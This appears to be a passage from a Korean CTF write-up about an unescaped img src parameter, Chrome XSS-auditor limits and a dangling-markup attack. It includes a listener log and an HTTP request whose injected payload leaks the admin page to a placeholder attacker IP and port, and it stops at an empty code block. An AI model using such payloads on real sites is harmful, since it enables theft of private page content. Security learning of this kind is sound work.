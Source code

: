 우선 이 페이지는 상당히 취약한 페이지이다. img의 src를 입력받을 수 있는데, 여기에 어떤 문자열을 넣어도 이스케이프 처리하지 않고 그대로 html페이지에 반영된다. 

XSS의 경우, 단일 인자로는 크롬의 auditor를 피해가기 어려우므로 불가능해 보인다. 

다음으로 생각해 볼 수 있는 것이 `Dangling Markup`이다. 숨겨진 내용이 정확히 어디에 위치할 지는 모르지만, 일단 이 공격은 가능하므로 한번쯤 시도해 볼 수 있다.



**how to know admin's browser**

본격적인 공격을 수행하기 전에, 우선 admin이 무슨 브라우저를 통해 방문하는 지를 알아봐야 한다. 만약 크롬을 사용하지 않는다면 `XSS-auditor`은 걱정하지 않아도 된다. 이를 위해 서버의 포트를 열고, 패킷을 하나 받아보자.

```bash
Listening on [0.0.0.0] (family 0, port 1338)
Connection from ip-51-83-110.eu 45792 received!
GET / HTTP/1.1
Host: (censored)
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
```

user-agent를 통해 chrome의 light버전인 HeadlessChrome을 사용함을 확인할 수 있다. 따라서 `XSS-auditor`은 반드시 bypass해야 하며, XSS는 article페이지에서만 발생시킬 수 있다.



**:point_right:In summary**

admin이 악의적인 URL에 접속하게 하여 server source를 leak해야 한다.

---

### 1.Leak admin src page

admin페이지의 src를 숨겨진 정보를 탈취하기 위해 `admin`페이지에서 `dangling markup`을 시도해볼 수 있다. 

다음의 request를 보내자

```http
POST /url HTTP/1.1
(blah)
Conetnt-TYpe: application/x-www-form-urlencoded
(blah)

url=http%3A%2F%2F127.0.0.1%3A8080%2Fadmin%3Fpicture%3D%22%3E%3Cimg+src%3D%27http%3A%2F%2F(YOURIP)%3A(YOURPORT)%2F%3Fp%3D
```



그리고 IP:PORT에서 리스닝하고 기다리면

```http
```